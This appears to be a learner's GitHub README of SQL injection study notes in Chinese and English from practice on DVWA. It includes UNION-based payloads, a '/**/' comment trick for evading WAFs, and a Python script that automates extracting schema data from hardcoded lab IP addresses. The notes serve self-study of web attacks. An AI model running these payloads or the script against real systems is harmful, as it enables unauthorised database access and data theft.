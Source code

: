 # SQLi-sum-up
这个仓库是自己学习工程中用来复盘的，因为切换输入法不方便，基本采用英语 来写，看官朋友们遇到不清楚的单词请自行查阅，感谢观看！ 另外，为了让自己方便观看，将采用倒序编写，最新的内容会在最前面 ```
# SQL injection（注入）
```
本篇文章是自己学习工程中用来复盘的，因为切换输入法不方便，基本采用英语
来写，看官朋友们遇到不清楚的单词请自行查阅，感谢观看！
另外，为了让自己方便观看，将采用倒序编写，最新的内容会在最前面
```
## Practice

### DVWA SQLi
> http://43.247.91.228:81/login.php
1. Vulnerability: SQL Injection
- low 
	omited
- middle
	1. get the number of columns, whose payload is:
		> 1 order by 2--
	2. find out  by using UNION SELECT 1,2,3,4...n, 
		and  the payload_id is:
		> 1 UNION SELECT 1,2&Submit=Submit#
		
	3. Fetch data, considering the structure of a classic Mysql_DB:
	
	![sql结构](SQL_STRUCTUTRE.png)
	
	Basic form of payloads should be like 
	
	> ?id=1/**/union/**/SELECT/**/table_schema,table_name/**/FROM/**/information_schema.tables/**/limit/**/2,3
	
	
	by using the tricks below you can gradually form the entire TABLE_NAME and COLUMN_NAME
	
	*** Addtionally, i should emphasize that '/**/' is a sort of replacements of space(' '), which sometimes is able to bypass WAF ***
	
	4. In the 3rd part, it's quite dull and of *LOW efficiency* to fetch data little by little, so i decide to make it AUTOMATIC:
- Python:

> before using, the injection param should be put at the TAIL of url, which is 
> from *?id=1%20UNION%20SELECT%201,user()&Submit=Submit#*  to  *?Submit=Submit&id=1%20UNION%20SELECT%201,user()* 

```
# coding:utf-8
# author:UncleHenry
import requests
from bs4 import BeautifulSoup
import regex as re


def getContent(xurl):
	'''
	@IN:SOUP soup
	@OUT:STR extracted content

	
	#print('soup:'+str(soup))
	'''
	HEADER = {
		'Connection': 'keep-alive',
		'User-Agent': "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.86 Safari/537.36"
	}
	SQLI_user_URL = 'http://47.96.138.65:45787/?id=1-1/**/union/**/select/**/database(),1,version(),user()'
	if xurl != None:
		SQLI_user_URL = xurl
		
	session = requests.Session()
	s0 = session.get(SQLI_user_URL)
	soup = BeautifulSoup(s0.content, 'html.parser')
	#可以用print(soup.find_all('center')[len(soup.find_all('center'))-1]) #找到最后一个center，比较特殊
	#print(soup.prettify)
	#用正则，取出最后一个<center>标签中的内容
	m = re.findall(r'<center>(.+?)</center>',str(soup))
	return(m[len(m)-1])
	
	
	
def fuzz_Url(xbasic_url):
	'''
	@IN: str BASIC_URL, like 
	'?id=1-1/**/union/**/select/**/database(),1,version(),'
	@OUT: str FUZZING_URL, like	
	'union/**/SELECT/**/table_schema/**/FROM/**/information_schema.tables'
	return a completed fuzzing URL
	'''
	#fuzz_ITEM = ['database','@@version','user()']
	fuzz_ITEM = ['table_schema']
	fuzz_RANGE = ['information_schema.tables','information_schema.columns']
	return(xbasic_url+' '+fuzz_ITEM[0]+' '+'from'+' '+fuzz_RANGE[0])




def limit_to_fetch_all(n):
	'''
	递归调用
	@IN：int n: STARTS AT 0
	
	@OUT:str: limit n,n+1 --
	'''
	limit = ' limit '+str(n)+','+str(n+1)+' --'
	return(limit)
	#return(' limit '+str(n)+','+str(n+1)+' --')
	# limit n,n+1
	
	
def trim(xstr):
	'''
	bypass waf
	could be DIY
	'''
	return(xstr.replace(" ", "/**/"))



if __name__ == "__main__":

	BASIC_URL = 'http://47.96.138.65:45787/?id=1-1/**/union/**/select/**/database(),1,version(),'
	#print(getContent(visitSite()))
	print("----OK, let's start----")
	for i in range(20):
		xurl = trim(fuzz_Url(BASIC_URL)+limit_to_fetch_all(i))
		try:
			res = getContent(xurl)
			print(res)
		
		except:
			print("----That's all----")
			break
			


	
	
	



```
效果如下：
![](auto_fuzzing.png)


- 编程心得
	1. python regex
		- findall(r[pattern],String) //extract from string
		- match(r[pattern],String) //match string
	

	
## Reasons of sqli
1. user-provided params which directly connect to db *WITHOUT* filter
	> $_GET
	> $_POST
	> $_REQUEST	
	
2. $result should be seen outside
	> echo($query)
	> echo...
